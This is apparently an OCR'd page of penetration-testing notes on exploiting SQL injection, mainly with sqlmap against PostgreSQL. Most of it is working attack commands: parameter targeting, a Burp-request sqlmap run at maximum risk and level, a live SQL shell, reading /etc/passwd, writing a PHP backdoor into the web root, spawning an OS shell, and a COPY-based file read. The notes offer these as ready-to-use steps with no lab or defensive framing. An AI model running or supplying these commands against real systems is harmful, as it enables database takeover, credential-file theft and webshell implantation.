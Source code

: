 By default, sqlmap tests all parameters (name, sort, order). If only one is vulnerable, you can narrow it down:

- -p name

Some apps reject POST without Content-Type: application/x-www-form-urlencoded. Add it like so:

- --headers="Content-Type: application/x-www-form-urlencoded"

Once sqlmap confirms a vulnerability, you can use:

```shell
sqlmap -u "http://target.url/?id=rug" --sql-shell
```

This gives you a live SQL shell — anything you type will be executed directly on the database. For example:

Read files from disk:

- --file-read=/etc/passwd

Write files (webshells, payloads):

- --file-write=backdoor.php --file-dest=/var/www/html/shell.php

Execute OS commands:

- --os-shell

#### Send to sqlmap (optional)

```shell
sqlmap -r burp_request.txt --batch --risk=3 --level=5 --technique=S
```

### URL-Encoded

    - ;	                %3B
    - space ( )	        %20
    - ' (single quote)	%27
    - =	                %3D
    - -- (comment) 	    -- or --+

### Reading and Writing Files

```sql
create table tmp(data text);
copy tmp from '/etc/passwd';
select * from tmp;
```

The pg_read_file() function reads files on the server filesystem (not client-side) and has the following valid forms:

```sql
pg_read_file(filename text [, offset integer, length integer [, missing_ok boolean]])
```

- filename: path relative to the data directory (you can't read arbitrary files).
- offset (optional): start position in bytes.
- length (optional): number of bytes to read.
- missing_ok (optional, PostgreSQL 13+): if true, returns NULL instead of error if file doesn't exist.
